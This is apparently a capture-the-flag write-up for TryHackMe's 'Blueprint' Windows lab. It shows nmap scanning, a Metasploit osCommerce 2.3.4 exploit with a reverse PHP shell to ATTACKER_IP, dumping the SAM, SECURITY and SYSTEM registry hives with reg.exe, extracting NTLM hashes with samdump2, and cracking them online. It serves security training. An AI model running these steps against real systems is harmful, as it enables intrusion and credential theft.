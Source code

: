 # [Blueprint](https://tryhackme.com/room/blueprint)

## Hack into this Windows machine and escalate your privileges to Administrator

### "Lab" user NTLM hash decrypted

1. First scan ports with nmap to identify available services

```bash
nmap IP
```

[SCREEN01]

2. After exploring the services, navigate to `https://<TARGET_IP>:443`. Here we discover an `oscommerce-2.3.4` directory. Online research indicated that this version has a remote code execution vulnerability that can be exploited using Metasploit

```bash
msfconsole
use exploit/multi/http/oscommerce_installer_unauth_code_exec
show options
set URI /oscommerce-2.3.4/catalog/install
set PAYLOAD php/reverse_php
set SSL true
set RHOSTS TARGET_IP
set RPORT 443
set LHOST ATTACKER_IP
set LPORT 4444
run

whoami
```

[SCREEN02]

3. Navigate to the web application directory and extract the Windows registry hives containing password data

```bash
cd C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes
reg.exe save hklm\sam SAM
reg.exe save hklm\security SECURITY
reg.exe save hklm\system SYSTEM
```

[SCREEN03]

```bash
samdump2 SYSTEM SAM
```

4. Download the registry hive files from the web server by accessing `https://IP/oscommerce-2.3.4/catalog/install/includes/`

5. Once downloaded to your attack machine, use `samdump2` to extract the password hashes

```bash
samdump2 SYSTEM SAM
```

[SCREEN04]

6. Copy the NTLM hash for the "Lab" user and paste it into [CrackStation](https://crackstation.net/) to decode it

[SCREEN05]

---

### root.txt

1. We can directly access the Administrator directory

```bash
cd C:\Users\Administrator\Desktop
dir
type root.txt.txt
```

[SCREEN06]
